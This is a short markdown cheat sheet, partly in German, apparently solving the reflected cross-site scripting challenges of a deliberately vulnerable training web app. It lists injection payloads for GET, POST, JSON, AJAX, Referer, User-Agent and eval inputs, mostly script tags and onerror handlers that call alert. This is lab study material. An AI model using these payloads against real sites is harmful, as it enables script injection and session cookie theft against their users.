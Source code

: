 
### // A3 - CROSS	SITE	SCRIPTING	(XSS) //
---
##### Cross-Site Scripting - Reflected (GET)
xss_get.php <br>
~~~
<script>alert(document.cookie)</script>
~~~
---
##### Cross-Site Scripting - Reflected (POST)
xss_post.php
~~~
<script>alert(document.cookie)</script>
~~~
---
##### Cross-Site Scripting - Reflected (JSON)
xss_json.php
~~~
"}]}';prompt(0)</script>
~~~
---
##### Cross-Site Scripting - Reflected (AJAX/JSON)
xss_ajax_2-1.php
~~~
&lt;img src=&apos;#&apos; onerror=&apos;alert(1)&apos;&gt;
~~~
---
##### Cross-Site Scripting - Reflected (AJAX/XML)
xss_ajax_1-1.php
~~~
&lt;img src=&apos;#&apos; onerror=&apos;alert(1)&apos;&gt;
~~~
---
##### Cross-Site Scripting - Reflected (Back Button)
Referer header feld:
~~~
Referer: ';alert(1);'
~~~
---
##### Cross-Site Scripting - Reflected (Custom Header)
Im header folgendes beifügen:
~~~
<script>alert(1)</script>
~~~
---
##### Cross-Site Scripting - Reflected (Eval)
~~~
date=alert(1)
~~~
---
##### Cross-Site Scripting - Reflected (HREF)
~~~
Referer: <script>alert(1)</script>
~~~
---
##### Cross-Site Scripting - Reflected (User-Agent)
~~~
User-Agent: <script>alert(1)</script>
~~~

---